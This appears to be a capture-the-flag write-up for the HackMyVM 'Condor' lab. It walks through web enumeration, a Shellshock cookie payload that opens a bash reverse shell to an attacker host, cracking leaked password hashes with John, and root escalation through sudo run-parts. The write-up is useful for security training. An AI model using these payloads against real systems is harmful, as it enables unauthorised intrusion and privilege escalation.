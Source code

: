 ```yaml
---
layout: post
title:  "HackMyVM: Condor"
date:   2021-12-07 20:00:00 +1000
category: hacking
---
```


This is [Condor](https://hackmyvm.eu/machines/machine.php?vm=Condor). It's Medium rated. 

## Ports
Just SSH and HTTP only, points to a web shell somehow.

### HTTP
This is an exercise in enumeration. **dirsearch** gives us not much, but it does give this:

``
[04:58:11] 200 -   20B  - /cgi-bin/test.cgi
``

This is pointing at shellshock, but the cgi isn't vulnerable. **Nikto** is usually good at these but 

``
nikto -h http://10.10.10.13 -C all
``

gives me nothing. This is the eventual search that found the gold:

``
feroxbuster -u http://10.10.10.13/cgi-bin/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -t 200 -C 403 --no-recursion -x txt,php,jpg,jpeg,gif,png,wav,log,zip,bak,sh,py,cgi
``

Obviously at this point I wasn't 100% sure I was looking for a script but I was certainly awake to the possibility. The hit is **condor.sh**.

I get a shell:

``
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.2/1234 0>&1' http://10.10.10.13/cgi-bin/condor.sh
``

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/condor]
└─# nc -nvlp 1234                                                                         

listening on [any] 1234 ...
connect to [10.10.10.2] from (UNKNOWN) [10.10.10.13] 45246
bash: cannot set terminal process group (423): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.3$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash-4.3$
{% endhighlight %}

Boom.

### Privesc
We have two users; kevin and paulo. Paulo has user.txt but we can't read it. 

{% highlight shell %}
4.0K drwxr-xr-x 3 kevin kevin 4.0K Nov  6 16:23 .
4.0K drwxr-xr-x 4 root  root  4.0K Nov  6 15:57 ..
   0 lrwxrwxrwx 1 root  root     9 Nov  6 16:23 .bash_history -> /dev/null
4.0K -rw-r--r-- 1 kevin kevin  220 Nov  6 15:02 .bash_logout
4.0K -rw-r--r-- 1 kevin kevin 3.5K Nov  6 15:02 .bashrc
4.0K -rw-r--r-- 1 kevin kevin 4.0K Nov  6 15:57 .i_did_it_again
4.0K drwxr-xr-x 3 kevin kevin 4.0K Nov  6 15:57 .local
4.0K -rw-r--r-- 1 kevin kevin  807 Nov  6 15:02 .profile
bash-4.3$ cat .i_
cat .i_did_it_again 
8395d26f20d997f971919e93edee06d3:$6$TCX.c/9ARPR3KCFE$4ZhsWox9dPa8/CG4O6socHVYYM6cJbtpaBx9cefvABC8gP0vMrWsgBhUUGoAHWnJI.X.NyzP5sbtMpGGfwuS11
307dcfe346e38992d47000630bd19579:$6$gwBgUJgQHGxTex13$b/67Oe7CIvDS85hex4GrHC2RuEkLRfWHAAgimHNyxC/L5biEqSly920uazvDXx3ACrM.srme6Us78aWUEGNAG0
# etc
{% endhighlight %}

So we have md5 hashes and sha512crypt hashes. Trying to crack all this will be painful. I pull out the md5 and run it through John:

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/condor]
└─# john hash -w=/usr/share/wordlists/rockyou.txt --format=Raw-MD5                
Using default input encoding: UTF-8
Loaded 29 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
paulo            (?)     
1g 0:00:00:00 DONE (2021-12-07 04:51) 1.219g/s 17491Kp/s 17491Kc/s 489775KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
{% endhighlight %}

So only one cracked, and it came to paulo. Probably what we want then. I re-hash paulo because John doesn't tell me which one it was; it's **dd41cb18c930753cbecf993f828603dc**. Which corresponds to **$6$1tKf9R.0qo7v5DjD$uYneSfO1bb4upW2xlLw.hHGeuAtCunYhdOjQS2MBdnpPcMt0ZiZee42BjDO2jmUJffTXsKdo43SjE4pqM6WqJ/**, which comes out as:

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/condor]
└─# john hash_paulo -w=/usr/share/wordlists/rockyou.txt           
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)     
1g 0:00:00:00 DONE (2021-12-07 04:54) 1.052g/s 1616p/s 1616c/s 1616C/s cuties..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
{% endhighlight %}

Then we can pivot to **paulo** and it's easy from there:

{% highlight shell %}
su paulo
Password: password123
id
uid=1001(paulo) gid=1001(paulo) groups=1001(paulo)
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash");'
paulo@condor:/home/kevin$ sudo -l
sudo -l
Matching Defaults entries for paulo on condor:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User paulo may run the following commands on condor:
    (ALL : ALL) NOPASSWD: /usr/bin/run-parts
{% endhighlight %}

Runparts is pure [GTFObins](https://gtfobins.github.io/gtfobins/run-parts/#sudo):

{% highlight shell %}
paulo@condor:/home/kevin$ sudo -u root run-parts --new-session --regex '^sh$' /bin
<udo -u root run-parts --new-session --regex '^sh$' /bin                     
/bin/sh: 0: cant access tty; job control turned off
# id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
condor
Tue 07 Dec 2021 10:55:15 AM CET
# cd /root
cd /root
# ls -lash
ls -lash
total 32K
4.0K drwx------  4 root root 4.0K Nov  6 16:24 .
4.0K drwxr-xr-x 18 root root 4.0K Nov  6 11:53 ..
   0 lrwxrwxrwx  1 root root    9 Nov  6 16:23 .bash_history -> /dev/null
4.0K -rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
4.0K drwxr-xr-x  3 root root 4.0K Nov  6 12:04 .local
4.0K -rw-r--r--  1 root root  161 Jul  9  2019 .profile
4.0K -rw-r--r--  1 root root   36 Nov  6 16:09 root.txt
4.0K drwx------  2 root root 4.0K Nov  6 12:05 .ssh
4.0K -rw-r--r--  1 root root  166 Nov  6 12:17 .wget-hsts
# cat root.txt
cat root.txt
FLAG_GOES_HERE
{% endhighlight %}

Short and sweet.
